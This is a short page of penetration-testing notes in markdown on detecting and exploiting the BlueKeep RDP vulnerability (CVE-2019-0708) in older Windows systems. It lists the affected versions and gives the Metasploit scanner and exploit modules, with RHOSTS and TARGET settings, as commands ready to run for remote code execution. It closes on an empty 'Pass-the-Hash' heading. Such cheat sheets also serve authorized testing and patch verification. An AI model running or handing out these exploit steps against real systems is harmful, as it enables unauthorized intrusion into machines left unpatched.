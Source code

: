 Detect and exploit BlueKeep
([CVE-2019-0708](https://nvd.nist.gov/vuln/detail/cve-2019-0708))
for remote code execution

> [!info]-
>
> Affects
>
> - Windows 7 and Server 2008
> - XP, Server 2003
>
> Metasploit supported targets
>
> - Windows 7 SP1
> - Windows Server 2008 R2


CVE-2019-0708 BlueKeep Microsoft Remote Desktop RCE Check
([cve_2019_0708_bluekeep](https://www.rapid7.com/db/modules/auxiliary/scanner/rdp/cve_2019_0708_bluekeep/))

```sh
use auxiliary/scanner/rdp/cve_2019_0708_bluekeep
```

> [!example]-
>
> ```sh
> use auxiliary/scanner/rdp/cve_2019_0708_bluekeep
> set RHOSTS <target>
> run
> ```

CVE-2019-0708 BlueKeep RDP Remote Windows Kernel Use After Free
([cve_2019_0708_bluekeep_rce](https://www.rapid7.com/db/modules/exploit/windows/rdp/cve_2019_0708_bluekeep_rce/))

```sh
use exploit/windows/rdp/cve_2019_0708_bluekeep_rce
```

> [!example]-
>
> ```sh
> use exploit/windows/rdp/cve_2019_0708_bluekeep_rce
> set RHOSTS <target>
> set TARGET 2
> exploit
> ```
>
> - `set TARGET 2`: Windows 7 x64

___




## Pass-the-Hash

